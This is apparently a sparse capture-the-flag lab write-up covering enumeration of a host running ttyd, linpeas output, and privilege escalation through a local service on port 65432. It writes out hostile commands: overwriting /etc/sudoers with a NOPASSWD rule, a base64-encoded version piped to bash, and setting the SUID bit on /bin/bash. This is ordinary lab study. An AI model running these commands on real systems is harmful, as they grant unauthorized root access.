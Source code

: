 #Pwned! 
```IP
192.168.133.210
```
# Enumeration

## HTTP 80
ttyd/1.7.3-a2312cb (libwebsockets/3.2.0)

# Exploitation

# PrivEsc

## Manual

## Automated

### Peass
linux exploits
pwnkit not working
[CVE-2021-3156] sudo Baron Samedit
[CVE-2021-3156] sudo Baron Samedit 2

active ports
```
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                                                                                                                                                          
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                                                                                                                                                          
tcp        0      0 127.0.0.1:65432         0.0.0.0:*               LISTEN      -                                    
tcp        0      0 0.0.0.0:8000            0.0.0.0:*               LISTEN                                
tcp6       0      0 :::22                   :::*                    LISTEN      -
```
.sh files in path
```
/usr/bin/gettext.sh                                                                     
/usr/bin/rescan-scsi-bus.sh
```

Searching for port 65432 we get an exploit.
Modifying the payload to ping our attacking machine will succeed. We will se some hexadecimal output nonetheless. 

```
ping -c 5 192.168.45.194
```
Unfortunately, the following payload to add our user to sudo will fail
```
echo “user ALL=(root) NOPASSWD: ALL” > /etc/sudoers
```
```
echo “user ALL=(root) NOPASSWD: ALL” > /etc/sudoers
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241201175406.png?raw=true)
encoding our payload in base64 doesnt work either
```
echo 'ZWNobyDigJx1c2VyIEFMTD0ocm9vdCkgTk9QQVNTV0Q6IEFMTOKAnSA+IC9ldGMvc3Vkb2Vycwo=' | base64 -d | bash
```
the following payload works fine:
```
chmod u+s /bin/bash
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241201180145.png?raw=true)
### Mimikatz

# Lateral Movement


